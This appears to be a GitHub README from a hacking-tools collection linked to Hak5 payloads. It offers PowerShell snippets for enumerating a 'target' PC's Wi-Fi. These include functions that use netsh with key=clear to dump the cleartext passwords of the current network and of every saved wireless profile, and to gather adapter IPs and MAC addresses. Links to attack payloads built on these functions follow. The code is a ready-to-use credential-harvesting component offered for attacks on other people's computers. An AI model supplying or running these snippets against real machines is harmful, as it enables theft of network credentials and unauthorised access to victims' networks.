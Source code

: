 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Wifi-Info

<p align="center">
      <a href="https://www.youtube.com/watch?v=FUZmMt1JVh0">
        <img src=https://i.ytimg.com/vi/FUZmMt1JVh0/hqdefault.jpg width="300" alt="Python" />
      </a>
      <br>YouTube Tutorial	
</p>

## Description

These functions will help you enumerate your targets wifi, and the wifi nearby

## The Function

### [Nearby Networks] 

This quick snippet will get you the wifi connections visible from your targets PC 

```
$NearbyNetworks = (netsh wlan show networks mode=Bssid | ?{$_ -like "SSID*" -or $_ -like "*Authentication*" -or $_ -like "*Encryption*"}).trim()
```

### [Get-CurrentNetwork] 

This first function will get you the SSID and Password the target PC is currently connected to and save it to the variable $CurrentNetwork

```
function Get-CurrentNetwork {

$pro = netsh wlan show interface | Select-String -Pattern ' SSID '; $pro = [string]$pro;$pos = $pro.IndexOf(':');$pro = $pro.Substring($pos+2).Trim()

$pass = netsh wlan show profile $pro key=clear | Select-String -Pattern 'Key Content'; $pass = [string]$pass;$passPOS = $pass.IndexOf(':');$pass = $pass.Substring($passPOS+2).Trim()

return "$pro	:	$pass"

} 

$CurrentNetwork = Get-CurrentNetwork

```

### [Get-AllNetworks] 

This function will get you a list of all the wifi networks your target has joined and their passwords and save it to the variable $Networks

```
Function Get-Networks {
# Get Network Interfaces
$Network = Get-WmiObject Win32_NetworkAdapterConfiguration | where { $_.MACAddress -notlike $null }  | select Index, Description, IPAddress, DefaultIPGateway, MACAddress | Format-Table Index, Description, IPAddress, DefaultIPGateway, MACAddress 

# Get Wifi SSIDs and Passwords	
$WLANProfileNames =@()

#Get all the WLAN profile names
$Output = netsh.exe wlan show profiles | Select-String -pattern " : "

#Trim the output to receive only the name
Foreach($WLANProfileName in $Output){
    $WLANProfileNames += (($WLANProfileName -split ":")[1]).Trim()
}
$WLANProfileObjects =@()

#Bind the WLAN profile names and also the password to a custom object
Foreach($WLANProfileName in $WLANProfileNames){

    #get the output for the specified profile name and trim the output to receive the password if there is no password it will inform the user
    try{
        $WLANProfilePassword = (((netsh.exe wlan show profiles name="$WLANProfileName" key=clear | select-string -Pattern "Key Content") -split ":")[1]).Trim()
    }Catch{
        $WLANProfilePassword = "The password is not stored in this profile"
    }

    #Build the object and add this to an array
    $WLANProfileObject = New-Object PSCustomobject 
    $WLANProfileObject | Add-Member -Type NoteProperty -Name "ProfileName" -Value $WLANProfileName
    $WLANProfileObject | Add-Member -Type NoteProperty -Name "ProfilePassword" -Value $WLANProfilePassword
    $WLANProfileObjects += $WLANProfileObject
    Remove-Variable WLANProfileObject    
}
return $WLANProfileObjects
}

$Networks = Get-Networks
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 
[//]: # (Examples of scripts that have used your function) 
Listed below are payloads that have used one of these functions:

[Acid Burn](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-AcidBurn)

[ADV-Recon](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ADV-Recon)


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
